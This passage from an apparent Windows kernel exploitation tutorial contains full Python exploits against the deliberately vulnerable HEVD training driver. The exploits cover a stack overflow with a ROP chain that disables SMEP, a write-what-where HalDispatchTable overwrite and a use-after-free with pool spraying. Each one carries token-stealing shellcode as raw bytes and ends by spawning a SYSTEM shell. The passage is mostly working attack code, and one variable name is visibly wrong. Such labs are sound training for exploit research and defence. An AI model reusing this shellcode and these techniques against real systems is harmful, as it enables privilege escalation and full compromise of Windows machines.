        # CR4 manipulation (SMEP bypass)
        r'mov cr4.*ret',
        r'mov.*cr4.*ret',

        # WRMSR (for older attacks)
        r'wrmsr.*ret',

        # Memory write gadgets
        r'mov \[.*\].*ret',
        r'mov qword ptr \[.*\].*ret',

        # Function return
        r'^0x[0-9a-f]+ : ret$',

        # Clean stack adjustment
        r'add rsp.*ret',
    ]

    categorized = {
        'stack_pivot': [],
        'pop_rcx': [],
        'pop_rdx': [],
        'pop_r8': [],
        'pop_rax': [],
        'mov_cr4': [],
        'wrmsr': [],
        'mem_write': [],
        'ret': [],
        'add_rsp': [],
    }

    for gadget_line in gadgets:
        line = gadget_line.strip().lower()

        if 'pop rcx' in line and 'ret' in line:
            categorized['pop_rcx'].append(gadget_line.strip())
        elif 'pop rdx' in line and 'ret' in line:
            categorized['pop_rdx'].append(gadget_line.strip())
        elif 'pop r8' in line and 'ret' in line:
            categorized['pop_r8'].append(gadget_line.strip())
        elif 'pop rax' in line and 'ret' in line:
            categorized['pop_rax'].append(gadget_line.strip())
        elif 'mov cr4' in line and 'ret' in line:
            categorized['mov_cr4'].append(gadget_line.strip())
        elif 'wrmsr' in line:
            categorized['wrmsr'].append(gadget_line.strip())
        elif 'add rsp' in line and 'ret' in line:
            categorized['add_rsp'].append(gadget_line.strip())

    # Print results
    for category, gadgets_list in categorized.items():
        if gadgets_list:
            print(f"\n{'='*60}")
            print(f"  {category.upper()} gadgets ({len(gadgets_list)} found)")
            print(f"{'='*60}")
            for g in gadgets_list[:5]:  # Show first 5 of each
                print(f"  {g}")
            if len(gadgets_list) > 5:
                print(f"  ... and {len(gadgets_list) - 5} more")

    return categorized


def build_rop_chain(kernel_base, gadgets):
    """
    Build a ROP chain for SMEP bypass + token stealing.

    Strategy:
    1. Disable SMEP by flipping CR4 bit 20
    2. Jump to user-mode shellcode (now allowed)
    3. Shellcode steals SYSTEM token
    4. Return to user mode
    """
    rop = b""

    # Current CR4 value with SMEP enabled:  0x00000000003506F8
    # CR4 value with SMEP disabled:         0x00000000001506F8
    #                                                  ^
    #                                           Bit 20 flipped

    CR4_SMEP_DISABLED = 0x00000000001506F8

    # Gadget addresses (kernel_base + offset)
    pop_rcx_ret   = kernel32_base + 0x12345  # pop rcx; ret
    mov_cr4_rcx   = kernel_base + 0x67890    # mov cr4, rcx; ret
    wrmsr_ret     = kernel_base + 0xABCDE    # wrmsr; ret

    # ROP Chain:
    # 1. pop rcx; ret  →  load new CR4 value into RCX
    rop += struct.pack('<Q', pop_rcx_ret)
    rop += struct.pack('<Q', CR4_SMEP_DISABLED)

    # 2. mov cr4, rcx; ret  →  disable SMEP
    rop += struct.pack('<Q', mov_cr4_rcx)

    # 3. Jump to user-mode shellcode (SMEP is now disabled)
    # rop += struct.pack('<Q', user_mode_shellcode_address)

    return rop


if __name__ == '__main__':
    import sys

    if len(sys.argv) < 2:
        # Default path
        ntoskrnl_path = r"C:\Windows\System32\ntoskrnl.exe"
    else:
        ntoskrnl_path = sys.argv[1]

    find_gadgets_rp(ntoskrnl_path)
```

#### Step 5: Complete Stack Overflow Exploit

```python
#!/usr/bin/env python3
"""
HEVD Stack Buffer Overflow — Complete Exploit
Target: Windows 10 21H2 x64
Technique: ROP chain to disable SMEP → Token stealing shellcode → SYSTEM shell

Author: Educational purposes only
"""

import ctypes
import ctypes.wintypes as wintypes
import struct
import subprocess
import os
import sys

# ==============================================================================
# Windows API Setup
# ==============================================================================

kernel32 = ctypes.WinDLL('kernel32', use_last_error=True)
ntdll = ctypes.WinDLL('ntdll', use_last_error=True)
psapi = ctypes.WinDLL('psapi', use_last_error=True)

GENERIC_READ  = 0x80000000
GENERIC_WRITE = 0x40000000
OPEN_EXISTING = 3
FILE_ATTRIBUTE_NORMAL = 0x80
MEM_COMMIT  = 0x1000
MEM_RESERVE = 0x2000
PAGE_EXECUTE_READWRITE = 0x40

HEVD_IOCTL_STACK_OVERFLOW = 0x222003

# ==============================================================================
# EPROCESS Offsets — Windows 10 21H2 x64
# ==============================================================================

KTHREAD_OFFSET       = 0x188    # GS:[0x188] = CurrentThread
EPROCESS_OFFSET      = 0x220    # KTHREAD.ApcState.Process
PID_OFFSET           = 0x440    # EPROCESS.UniqueProcessId
FLINK_OFFSET         = 0x448    # EPROCESS.ActiveProcessLinks
TOKEN_OFFSET         = 0x4B8    # EPROCESS.Token

# ==============================================================================
# Token Stealing Shellcode (x64)
# ==============================================================================

"""
Shellcode strategy:
1. Get current EPROCESS via GS segment → KTHREAD → EPROCESS
2. Save current EPROCESS in RCX
3. Walk ActiveProcessLinks until we find PID 4 (System)
4. Copy System's Token to our process
5. Fix up CR4 (re-enable SMEP for stability)
6. Return cleanly to user mode
"""

token_stealing_shellcode = bytes([
    # --- Save non-volatile registers ---
    0x50,                                           # push rax
    0x51,                                           # push rcx
    0x52,                                           # push rdx
    0x53,                                           # push rbx

    # --- Get current EPROCESS ---
    0x65, 0x48, 0x8B, 0x04, 0x25,                   # mov rax, gs:[KTHREAD_OFFSET]
    0x88, 0x01, 0x00, 0x00,
    0x48, 0x8B, 0x80,                               # mov rax, [rax + EPROCESS_OFFSET]
    0x20, 0x02, 0x00, 0x00,
    0x48, 0x89, 0xC1,                               # mov rcx, rax  (save our EPROCESS)

    # --- Walk ActiveProcessLinks to find System (PID 4) ---
    # find_system_loop:
    0x48, 0x8B, 0x80,                               # mov rax, [rax + FLINK_OFFSET]
    0x48, 0x04, 0x00, 0x00,
    0x48, 0x2D,                                     # sub rax, FLINK_OFFSET
    0x48, 0x04, 0x00, 0x00,
    0x48, 0x83, 0xB8,                               # cmp qword [rax + PID_OFFSET], 4
    0x40, 0x04, 0x00, 0x00,
    0x04,
    0x75, 0xEA,                                     # jnz find_system_loop

    # --- Found System! Copy its Token to our process ---
    0x48, 0x8B, 0x90,                               # mov rdx, [rax + TOKEN_OFFSET]
    0xB8, 0x04, 0x00, 0x00,
    0x48, 0x89, 0x91,                               # mov [rcx + TOKEN_OFFSET], rdx
    0xB8, 0x04, 0x00, 0x00,

    # --- Restore non-volatile registers ---
    0x5B,                                           # pop rbx
    0x5A,                                           # pop rdx
    0x59,                                           # pop rcx
    0x58,                                           # pop rax

    # --- Return cleanly ---
    0x48, 0x31, 0xC0,                               # xor rax, rax (STATUS_SUCCESS)
    0xC3,                                           # ret
])

# ==============================================================================
# Exploit Functions
# ==============================================================================

def leak_kernel_base():
    """Leak ntoskrnl.exe base address for KASLR bypass."""
    print("[*] Phase 1: KASLR Bypass — Leaking kernel base...")

    drivers = (ctypes.c_void_p * 1024)()
    needed = wintypes.DWORD()
    psapi.EnumDeviceDrivers(
        ctypes.byref(drivers), ctypes.sizeof(drivers), ctypes.byref(needed)
    )

    kernel_base = drivers[0]
    name = ctypes.create_string_buffer(256)
    psapi.GetDeviceDriverBaseNameA(kernel_base, name, 256)

    print(f"[+] Kernel base: 0x{kernel_base:016X} ({name.value.decode()})")
    return kernel_base


def find_driver_base(name):
    """Find base address of a loaded kernel driver."""
    drivers = (ctypes.c_void_p * 1024)()
    needed = wintypes.DWORD()
    psapi.EnumDeviceDrivers(
        ctypes.byref(drivers), ctypes.sizeof(drivers), ctypes.byref(needed)
    )

    count = needed.value // ctypes.sizeof(ctypes.c_void_p)
    for i in range(count):
        drv_name = ctypes.create_string_buffer(256)
        psapi.GetDeviceDriverBaseNameA(drivers[i], drv_name, 256)
        if name.lower() in drv_name.value.decode().lower():
            return drivers[i]
    return None


def prepare_shellcode():
    """Allocate RWX memory and copy token stealing shellcode."""
    print("[*] Phase 2: Preparing shellcode...")

    # Allocate executable memory for shellcode
    shellcode_addr = kernel32.VirtualAlloc(
        None,
        len(token_stealing_shellcode),
        MEM_COMMIT | MEM_RESERVE,
        PAGE_EXECUTE_READWRITE
    )

    if not shellcode_addr:
        print("[-] VirtualAlloc failed!")
        return None

    # Copy shellcode
    ctypes.memmove(shellcode_addr, token_stealing_shellcode, len(token_stealing_shellcode))

    print(f"[+] Shellcode at: 0x{shellcode_addr:016X}")
    print(f"[+] Shellcode size: {len(token_stealing_shellcode)} bytes")

    return shellcode_addr


def build_exploit_buffer(kernel_base, shellcode_addr):
    """Build the overflow buffer with ROP chain."""
    print("[*] Phase 3: Building exploit buffer...")

    # ============================================================
    # ROP Gadget Offsets (ntoskrnl.exe)
    # These offsets are VERSION SPECIFIC — adjust for your target!
    #
    # Find these with:
    #   ROPgadget --binary ntoskrnl.exe --ropchain
    #   or rp++ ntoskrnl.exe
    # ============================================================

    # Example offsets (YOU MUST FIND THESE FOR YOUR SPECIFIC ntoskrnl.exe VERSION)
    POP_RCX_RET_OFFSET  = 0x3D4346   # pop rcx; ret
    MOV_CR4_RCX_OFFSET  = 0x3D4A50   # mov cr4, rcx; ret
    SWAPGS_RET_OFFSET   = 0x1BADE0   # swapgs; ret (for return to user mode)
    IRETQ_OFFSET        = 0x1BAE00   # iretq (return to user mode)

    # Calculate absolute addresses
    pop_rcx_ret = kernel_base + POP_RCX_RET_OFFSET
    mov_cr4_rcx = kernel_base + MOV_CR4_RCX_OFFSET

    # CR4 with SMEP disabled (flip bit 20)
    # Normal CR4:    0x00000000003506F8
    # SMEP disabled: 0x00000000001506F8
    cr4_smep_disabled = 0x00000000001506F8

    # ============================================================
    # Build the buffer
    # ============================================================

    buffer = b""

    # Part 1: Fill KernelBuffer (2048 bytes)
    buffer += b"\x41" * 2048

    # Part 2: Overwrite saved RBP (8 bytes)
    buffer += b"\x42" * 8

    # Part 3: ROP Chain starts here (overwrites return address)

    # Gadget 1: pop rcx; ret — load new CR4 value
    buffer += struct.pack('<Q', pop_rcx_ret)
    buffer += struct.pack('<Q', cr4_smep_disabled)  # Value for CR4

    # Gadget 2: mov cr4, rcx; ret — disable SMEP!
    buffer += struct.pack('<Q', mov_cr4_rcx)

    # Gadget 3: Return to our shellcode (SMEP is disabled now)
    buffer += struct.pack('<Q', shellcode_addr)

    # After shellcode returns, we need a clean return to user mode
    # This is handled by the shellcode's ret instruction
    # pointing back to user-mode code

    total_size = len(buffer)
    print(f"[+] Buffer size: {total_size} bytes")
    print(f"[+] Overflow starts at offset: 2048")
    print(f"[+] RIP control at offset: 2056")
    print(f"[+] ROP chain gadgets: 3")
    print(f"[+] pop rcx; ret        @ 0x{pop_rcx_ret:016X}")
    print(f"[+] CR4 (SMEP disabled) = 0x{cr4_smep_disabled:016X}")
    print(f"[+] mov cr4, rcx; ret   @ 0x{mov_cr4_rcx:016X}")
    print(f"[+] shellcode           @ 0x{shellcode_addr:016X}")

    return buffer


def trigger_exploit(buffer):
    """Send the exploit buffer to the driver."""
    print("[*] Phase 4: Triggering exploit...")

    device_name = "\\\\.\\HackSysExtremeVulnerableDriver"
    hDevice = kernel32.CreateFileW(
        device_name,
        GENERIC_READ | GENERIC_WRITE,
        0, None, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, None
    )

    if hDevice == ctypes.c_void_p(-1).value:
        print(f"[-] Failed to open device. Error: {ctypes.get_last_error()}")
        return False

    print(f"[+] Device handle: 0x{hDevice:X}")

    # Create input buffer
    input_buffer = ctypes.create_string_buffer(buffer)
    bytes_returned = wintypes.DWORD(0)

    print(f"[*] Sending {len(buffer)} bytes to IOCTL 0x{HEVD_IOCTL_STACK_OVERFLOW:08X}...")
    print(f"[!] If SMEP bypass works, token will be replaced...")

    result = kernel32.DeviceIoControl(
        hDevice,
        HEVD_IOCTL_STACK_OVERFLOW,
        input_buffer,
        len(buffer),
        None,
        0,
        ctypes.byref(bytes_returned),
        None
    )

    kernel32.CloseHandle(hDevice)
    return True


def check_privilege():
    """Check if we got SYSTEM privileges."""
    print("\n[*] Phase 5: Checking privileges...")

    result = subprocess.run(['whoami'], capture_output=True, text=True)
    current_user = result.stdout.strip()
    print(f"[*] Current user: {current_user}")

    if 'system' in current_user.lower():
        print("[+] ██████████████████████████████████████████")
        print("[+] ███  PRIVILEGE ESCALATION SUCCESSFUL!  ███")
        print("[+] ███     Running as NT AUTHORITY\\SYSTEM  ███")
        print("[+] ██████████████████████████████████████████")
        return True
    else:
        print("[-] Still running as normal user.")
        return False


def spawn_system_shell():
    """Spawn an interactive SYSTEM shell."""
    print("\n[*] Phase 6: Spawning SYSTEM shell...")
    print("[+] Type 'whoami' to verify SYSTEM privileges")
    print("[+] Type 'exit' to close the shell\n")
    os.system("cmd.exe /k whoami && echo. && echo [+] You are SYSTEM! && echo.")


# ==============================================================================
# Main Exploit Flow
# ==============================================================================

def main():
    print("=" * 65)
    print("  HEVD Stack Buffer Overflow — Kernel Exploit")
    print("  Target: Windows 10 21H2 x64")
    print("  Technique: ROP + SMEP Bypass + Token Stealing")
    print("=" * 65)
    print()

    # Phase 1: KASLR Bypass
    kernel_base = leak_kernel_base()

    # Phase 2: Prepare shellcode
    shellcode_addr = prepare_shellcode()
    if not shellcode_addr:
        sys.exit(1)

    # Phase 3: Build exploit buffer
    exploit_buffer = build_exploit_buffer(kernel_base, shellcode_addr)

    # Phase 4: Trigger exploit
    input("\n[?] Press ENTER to trigger the exploit...")
    success = trigger_exploit(exploit_buffer)

    if success:
        # Phase 5: Check privileges
        if check_privilege():
            # Phase 6: SYSTEM shell
            spawn_system_shell()
        else:
            print("[-] Exploit may have failed. Check WinDbg for crash info.")


if __name__ == '__main__':
    main()
```

---

## Exploit 2: Write-What-Where (Arbitrary Write)

The Write-What-Where primitive is one of the most powerful vulnerability types. You can write any value to any kernel memory address.

### Understanding the Vulnerability

```c
/*
 * HEVD Write-What-Where Handler
 */
typedef struct _WRITE_WHAT_WHERE {
    PULONG_PTR What;   // Pointer to value to read
    PULONG_PTR Where;  // Pointer to location to write
} WRITE_WHAT_WHERE, *PWRITE_WHAT_WHERE;

NTSTATUS TriggerWriteWhatWhere(PWRITE_WHAT_WHERE UserWriteWhatWhere)
{
    PULONG_PTR What = UserWriteWhatWhere->What;
    PULONG_PTR Where = UserWriteWhatWhere->Where;

    DbgPrint("[***] What: 0x%p\n", What);
    DbgPrint("[***] Where: 0x%p\n", Where);

    // VULNERABILITY: Writing user-controlled value to user-controlled address!
    // No validation that 'Where' points to a safe location
    *(Where) = *(What);

    return STATUS_SUCCESS;
}
```

### Data-Only Attack Strategy

Modern exploits prefer **data-only attacks** — modifying kernel data structures without executing any attacker-supplied code. This bypasses SMEP, SMAP, kCFG, and HVCI.



### Complete Write-What-Where Exploit

```python
#!/usr/bin/env python3
"""
HEVD Write-What-Where Exploit
Target: Windows 10 21H2 x64

Strategy: Overwrite the current process's token with SYSTEM's token
using the arbitrary write primitive.

This exploit uses a data-only approach — no shellcode execution needed.
Bypasses: SMEP, SMAP, kCFG, HVCI (theoretically)
"""

import ctypes
import ctypes.wintypes as wintypes
import struct
import subprocess
import os
import sys

kernel32 = ctypes.WinDLL('kernel32', use_last_error=True)
ntdll = ctypes.WinDLL('ntdll', use_last_error=True)
psapi = ctypes.WinDLL('psapi', use_last_error=True)

GENERIC_READ = 0x80000000
GENERIC_WRITE = 0x40000000
OPEN_EXISTING = 3
FILE_ATTRIBUTE_NORMAL = 0x80

HEVD_IOCTL_WRITE_WHAT_WHERE = 0x222007

# Offsets for Windows 10 21H2 x64
PID_OFFSET   = 0x440
FLINK_OFFSET = 0x448
TOKEN_OFFSET = 0x4B8

# ==============================================================================
# Write-What-Where Structure
# ==============================================================================

class WRITE_WHAT_WHERE(ctypes.Structure):
    _fields_ = [
        ("What",  ctypes.c_void_p),   # Pointer to value
        ("Where", ctypes.c_void_p),   # Pointer to target
    ]

# ==============================================================================
# Strategy: Overwriting HalDispatchTable
# ==============================================================================
#
# Since we have an arbitrary write but not an arbitrary read,
# we use a different technique: overwrite a function pointer
# in HalDispatchTable with our shellcode address.
#
# HalDispatchTable[1] is called by NtQueryIntervalProfile.
# By overwriting it, we can redirect execution to our code.
#
# Flow:
# 1. Find ntoskrnl base (KASLR bypass)
# 2. Find offset of HalDispatchTable in ntoskrnl
# 3. Overwrite HalDispatchTable[1] with shellcode address
# 4. Call NtQueryIntervalProfile to trigger shellcode execution
# 5. Restore HalDispatchTable[1] for stability

def leak_kernel_base():
    """Leak ntoskrnl.exe base for KASLR bypass."""
    drivers = (ctypes.c_void_p * 1024)()
    needed = wintypes.DWORD()
    psapi.EnumDeviceDrivers(
        ctypes.byref(drivers), ctypes.sizeof(drivers), ctypes.byref(needed)
    )
    kernel_base = drivers[0]
    name = ctypes.create_string_buffer(256)
    psapi.GetDeviceDriverBaseNameA(kernel_base, name, 256)
    print(f"[+] Kernel base: 0x{kernel_base:016X} ({name.value.decode()})")
    return kernel_base


def get_hal_dispatch_offset():
    """
    Find HalDispatchTable offset in ntoskrnl.exe.
    We load ntoskrnl.exe in user mode and find the symbol offset.
    """
    # Load ntoskrnl.exe in user mode to get the offset
    ntoskrnl_user = kernel32.LoadLibraryExW(
        "ntoskrnl.exe",
        None,
        0x00000001  # DONT_RESOLVE_DLL_REFERENCES
    )

    if not ntoskrnl_user:
        print("[-] Failed to load ntoskrnl.exe")
        return None

    # Get address of HalDispatchTable
    hal_dispatch_user = kernel32.GetProcAddress(
        ntoskrnl_user,
        b"HalDispatchTable"
    )

    if not hal_dispatch_user:
        print("[-] Failed to find HalDispatchTable")
        kernel32.FreeLibrary(ntoskrnl_user)
        return None

    # Calculate offset
    offset = hal_dispatch_user - ntoskrnl_user
    print(f"[+] HalDispatchTable offset: 0x{offset:X}")

    kernel32.FreeLibrary(ntoskrnl_user)
    return offset


def prepare_shellcode():
    """Prepare token stealing shellcode in RWX memory."""
    shellcode = bytes([
        # Save registers
        0x50,                                           # push rax
        0x51,                                           # push rcx
        0x52,                                           # push rdx
        0x53,                                           # push rbx

        # Get current EPROCESS
        0x65, 0x48, 0x8B, 0x04, 0x25,                   # mov rax, gs:[0x188]
              0x88, 0x01, 0x00, 0x00,
        0x48, 0x8B, 0x80,                               # mov rax, [rax+0x220]
              0x20, 0x02, 0x00, 0x00,
        0x48, 0x89, 0xC1,                               # mov rcx, rax

        # Find System process (PID 4)
        # loop:
        0x48, 0x8B, 0x80,                               # mov rax, [rax+0x448]
              0x48, 0x04, 0x00, 0x00,
        0x48, 0x2D,                                     # sub rax, 0x448
              0x48, 0x04, 0x00, 0x00,
        0x48, 0x83, 0xB8,                               # cmp qword [rax+0x440], 4
              0x40, 0x04, 0x00, 0x00, 0x04,
        0x75, 0xEA,                                     # jnz loop

        # Copy System token to current process
        0x48, 0x8B, 0x90,                               # mov rdx, [rax+0x4B8]
              0xB8, 0x04, 0x00, 0x00,
        0x48, 0x89, 0x91,                               # mov [rcx+0x4B8], rdx
              0xB8, 0x04, 0x00, 0x00,

        # Restore registers
        0x5B,                                           # pop rbx
        0x5A,                                           # pop rdx
        0x59,                                           # pop rcx
        0x58,                                           # pop rax

        # Return
        0x48, 0x31, 0xC0,                               # xor rax, rax
        0xC3,                                           # ret
    ])

    # Allocate RWX memory
    addr = kernel32.VirtualAlloc(
        None, len(shellcode),
        0x1000 | 0x2000,  # MEM_COMMIT | MEM_RESERVE
        0x40              # PAGE_EXECUTE_READWRITE
    )

    ctypes.memmove(addr, shellcode, len(shellcode))
    print(f"[+] Shellcode at: 0x{addr:016X} ({len(shellcode)} bytes)")
    return addr


def do_write(hDevice, what_addr, where_addr):
    """Perform arbitrary write using HEVD's write-what-where."""
    www = WRITE_WHAT_WHERE()
    www.What  = what_addr
    www.Where = where_addr

    bytes_returned = wintypes.DWORD(0)

    result = kernel32.DeviceIoControl(
        hDevice,
        HEVD_IOCTL_WRITE_WHAT_WHERE,
        ctypes.byref(www),
        ctypes.sizeof(www),
        None, 0,
        ctypes.byref(bytes_returned),
        None
    )

    return result


def main():
    print("=" * 65)
    print("  HEVD Write-What-Where Exploit")
    print("  Target: Windows 10 21H2 x64")
    print("  Technique: HalDispatchTable Overwrite + Token Stealing")
    print("=" * 65)
    print()

    # Step 1: KASLR Bypass
    kernel_base = leak_kernel_base()

    # Step 2: Find HalDispatchTable
    hal_offset = get_hal_dispatch_offset()
    if hal_offset is None:
        sys.exit(1)

    hal_dispatch_addr = kernel_base + hal_offset
    hal_dispatch_1 = hal_dispatch_addr + 8  # HalDispatchTable[1]
    print(f"[+] HalDispatchTable: 0x{hal_dispatch_addr:016X}")
    print(f"[+] HalDispatchTable[1]: 0x{hal_dispatch_1:016X}")

    # Step 3: Prepare shellcode
    shellcode_addr = prepare_shellcode()

    # Step 4: Open device
    hDevice = kernel32.CreateFileW(
        "\\\\.\\HackSysExtremeVulnerableDriver",
        GENERIC_READ | GENERIC_WRITE,
        0, None, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, None
    )

    if hDevice == ctypes.c_void_p(-1).value:
        print(f"[-] Failed to open device. Error: {ctypes.get_last_error()}")
        sys.exit(1)

    print(f"[+] Device handle: 0x{hDevice:X}")

    # Step 5: Overwrite HalDispatchTable[1]
    print(f"\n[*] Overwriting HalDispatchTable[1]...")
    print(f"    What:  0x{shellcode_addr:016X} (shellcode)")
    print(f"    Where: 0x{hal_dispatch_1:016X} (HalDispatchTable[1])")

    # We need to pass a POINTER to our shellcode address (What is read via pointer)
    shellcode_addr_storage = ctypes.c_ulonglong(shellcode_addr)

    do_write(hDevice, ctypes.addressof(shellcode_addr_storage), hal_dispatch_1)
    print(f"[+] HalDispatchTable[1] overwritten!")

    # Step 6: Trigger the shellcode via NtQueryIntervalProfile
    print(f"[*] Triggering shellcode via NtQueryIntervalProfile...")

    NtQueryIntervalProfile = ntdll.NtQueryIntervalProfile
    NtQueryIntervalProfile.argtypes = [wintypes.ULONG, ctypes.POINTER(wintypes.ULONG)]
    NtQueryIntervalProfile.restype = ctypes.c_long

    interval = wintypes.ULONG(0)
    status = NtQueryIntervalProfile(0x1337, ctypes.byref(interval))
    print(f"[+] NtQueryIntervalProfile status: 0x{status & 0xFFFFFFFF:08X}")

    # Step 7: Check if we're SYSTEM
    kernel32.CloseHandle(hDevice)

    result = subprocess.run(['whoami'], capture_output=True, text=True)
    current_user = result.stdout.strip()
    print(f"\n[*] Current user: {current_user}")

    if 'system' in current_user.lower():
        print("[+] ██████████████████████████████████████████")
        print("[+] ███  EXPLOITATION SUCCESSFUL!           ███")
        print("[+] ███  Running as NT AUTHORITY\\SYSTEM     ███")
        print("[+] ██████████████████████████████████████████")
        os.system("cmd.exe")
    else:
        print("[-] Still running as normal user.")
        print("[-] Check ROP gadgets and offsets for your kernel version.")


if __name__ == '__main__':
    main()
```

---

## Exploit 3: Use-After-Free (UAF)

Use-After-Free is one of the most common vulnerability classes in the Windows kernel, especially in `win32k.sys`.

### The Vulnerability Pattern



### Complete UAF Exploit with Pool Spray

```python
#!/usr/bin/env python3
"""
HEVD Use-After-Free Exploit with Pool Spray
Target: Windows 10 21H2 x64

Strategy:
1. Allocate the vulnerable object (known size)
2. Free the object (dangling pointer remains)
3. Spray the kernel pool to reclaim the freed slot with controlled data
4. Trigger the dangling pointer usage → code execution
"""

import ctypes
import ctypes.wintypes as wintypes
import struct
import subprocess
import os
import sys

kernel32 = ctypes.WinDLL('kernel32', use_last_error=True)
ntdll = ctypes.WinDLL('ntdll', use_last_error=True)

GENERIC_READ  = 0x80000000
GENERIC_WRITE = 0x40000000
OPEN_EXISTING = 3
FILE_ATTRIBUTE_NORMAL = 0x80
MEM_COMMIT    = 0x1000
MEM_RESERVE   = 0x2000
PAGE_EXECUTE_READWRITE = 0x40

# HEVD IOCTL codes for UAF
HEVD_IOCTL_UAF_ALLOC     = 0x222013   # Allocate UaF object
HEVD_IOCTL_UAF_FREE      = 0x22201B   # Free UaF object (leaves dangling ptr)
HEVD_IOCTL_UAF_USE       = 0x222017   # Use freed object (triggers UAF)
HEVD_IOCTL_FAKE_OBJECT   = 0x22201F   # Allocate fake object (for pool spray)

# ==============================================================================
# UAF Object Structure (from HEVD source)
# ==============================================================================
"""
typedef struct _USE_AFTER_FREE {
    FunctionPointer Callback;     // +0x00: function pointer (8 bytes on x64)
    CHAR Buffer[0x54];            // +0x08: buffer
} USE_AFTER_FREE, *PUSE_AFTER_FREE;

Total size: 0x58 bytes (with pool header → 0x60 pool block)
"""

UAF_OBJECT_SIZE = 0x58  # Size of the vulnerable object

# ==============================================================================
# Pool Spray Using IoCompletionReserve Objects
# ==============================================================================
"""
Pool spraying technique:
We need to fill the kernel pool with controlled objects of the same size
as the freed UAF object (0x58 bytes, 0x60 with pool header).

IoCompletionReserve objects are 0x60 bytes — perfect match!
Created via NtAllocateReserveObject.
"""

class OBJECT_ATTRIBUTES(ctypes.Structure):
    _fields_ = [
        ("Length", wintypes.ULONG),
        ("RootDirectory", wintypes.HANDLE),
        ("ObjectName", ctypes.c_void_p),
        ("Attributes", wintypes.ULONG),
        ("SecurityDescriptor", ctypes.c_void_p),
        ("SecurityQualityOfService", ctypes.c_void_p),
    ]


def create_io_completion_reserve():
    """Create an IoCompletionReserve object for pool spraying."""
    handle = wintypes.HANDLE()
    obj_attr = OBJECT_ATTRIBUTES()
    obj_attr.Length = ctypes.sizeof(OBJECT_ATTRIBUTES)

    # NtAllocateReserveObject(Handle, ObjectAttributes, Type)
    # Type 1 = IoCompletionReserve (0x60 bytes in pool — matches UAF object!)
    NtAllocateReserveObject = ntdll.NtAllocateReserveObject
    NtAllocateReserveObject.restype = ctypes.c_long

    status = NtAllocateReserveObject(
        ctypes.byref(handle),
        ctypes.byref(obj_attr),
        1  # IoCompletionReserve
    )

    if status != 0:
        return None
    return handle


def prepare_shellcode():
    """Prepare token stealing shellcode."""
    shellcode = bytes([
        # Save registers
        0x50,                                           # push rax
        0x51,                                           # push rcx
        0x52,                                           # push rdx
        0x53,                                           # push rbx

        # Get current EPROCESS
        0x65, 0x48, 0x8B, 0x04, 0x25,                   # mov rax, gs:[0x188]
              0x88, 0x01, 0x00, 0x00,
        0x48, 0x8B, 0x80,                               # mov rax, [rax+0x220]
              0x20, 0x02, 0x00, 0x00,
        0x48, 0x89, 0xC1,                               # mov rcx, rax

        # Find System process
        0x48, 0x8B, 0x80,                               # mov rax, [rax+0x448]
              0x48, 0x04, 0x00, 0x00,
        0x48, 0x2D,                                     # sub rax, 0x448
              0x48, 0x04, 0x00, 0x00,
        0x48, 0x83, 0xB8,                               # cmp qword [rax+0x440], 4
              0x40, 0x04, 0x00, 0x00, 0x04,
        0x75, 0xEA,                                     # jnz loop

        # Steal token
        0x48, 0x8B, 0x90,                               # mov rdx, [rax+0x4B8]
              0xB8, 0x04, 0x00, 0x00,
        0x48, 0x89, 0x91,                               # mov [rcx+0x4B8], rdx
              0xB8, 0x04, 0x00, 0x00,

        # Restore and return
        0x5B,                                           # pop rbx
        0x5A,                                           # pop rdx
        0x59,                                           # pop rcx
        0x58,                                           # pop rax
        0x48, 0x31, 0xC0,                               # xor rax, rax
        0xC3,                                           # ret
    ])

    addr = kernel32.VirtualAlloc(
        None, len(shellcode),
        MEM_COMMIT | MEM_RESERVE,
        PAGE_EXECUTE_READWRITE
    )
    ctypes.memmove(addr, shellcode, len(shellcode))
    print(f"[+] Shellcode at: 0x{addr:016X}")
    return addr


def send_ioctl(hDevice, ioctl_code, input_buffer=None, input_size=0):
    """Send an IOCTL to HEVD."""
    bytes_returned = wintypes.DWORD(0)
    result = kernel32.DeviceIoControl(
        hDevice, ioctl_code,
        input_buffer, input_size,
        None, 0,
        ctypes.byref(bytes_returned),
        None
    )
    return result


def main():
    print("=" * 65)
    print("  HEVD Use-After-Free Exploit with Pool Spray")
    print("  Target: Windows 10 21H2 x64")
    print("=" * 65)
    print()

    # Open device
    hDevice = kernel32.CreateFileW(
        "\\\\.\\HackSysExtremeVulnerableDriver",
        GENERIC_READ | GENERIC_WRITE,
        0, None, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, None
    )
    if hDevice == ctypes.c_void_p(-1).value:
        print(f"[-] Failed to open device")
        sys.exit(1)
    print(f"[+] Device handle: 0x{hDevice:X}")

    # Prepare shellcode
    shellcode_addr = prepare_shellcode()

    # ==============================================================
    # Phase 1: Defragment the pool
    # ==============================================================
    print("\n[*] Phase 1: Defragmenting kernel pool...")

    spray_handles_defrag = []
    for i in range(5000):
        h = create_io_completion_reserve()
        if h:
            spray_handles_defrag.append(h)

    print(f"[+] Created {len(spray_handles_defrag)} defrag objects")

    # ==============================================================
    # Phase 2: Create sequential pool allocations
    # ==============================================================
    print("[*] Phase 2: Creating sequential pool allocations...")

    spray_handles = []
    for i in range(10000):
        h = create_io_completion_reserve()
        if h:
            spray_handles.append(h)

    print(f"[+] Created {len(spray_handles)} spray objects")

    # ==============================================================
    # Phase 3: Create holes in the pool (free every other object)
    # ==============================================================
    print("[*] Phase 3: Creating pool holes...")

    holes_created = 0
    for i in range(0, len(spray_handles), 2):
        kernel32.CloseHandle(spray_handles[i])
        spray_handles[i] = None
        holes_created += 1

    print(f"[+] Created {holes_created} holes in pool")

    # ==============================================================
    # Phase 4: Allocate UAF object (should land in a hole)
    # ==============================================================
    print("[*] Phase 4: Allocating UAF object...")
    send_ioctl(hDevice, HEVD_IOCTL_UAF_ALLOC)
    print("[+] UAF object allocated")

    # ==============================================================
    # Phase 5: Free UAF object (dangling pointer remains)
    # ==============================================================
    print("[*] Phase 5: Freeing UAF object (creating dangling pointer)...")
    send_ioctl(hDevice, HEVD_IOCTL_UAF_FREE)
    print("[+] UAF object freed — dangling pointer active!")

    # ==============================================================
    # Phase 6: Spray fake objects to reclaim the freed slot
    # ==============================================================
    print("[*] Phase 6: Spraying fake objects to reclaim freed memory...")

    """
    The fake object needs to match the UAF object layout:
    +0x00: Callback function pointer (8 bytes) — point to our shellcode!
    +0x08: Buffer data (0x50 bytes)

    Total: 0x58 bytes
    """

    fake_object = struct.pack('<Q', shellcode_addr)    # Callback → shellcode
    fake_object += b'\x41' * 0x50                       # Filler

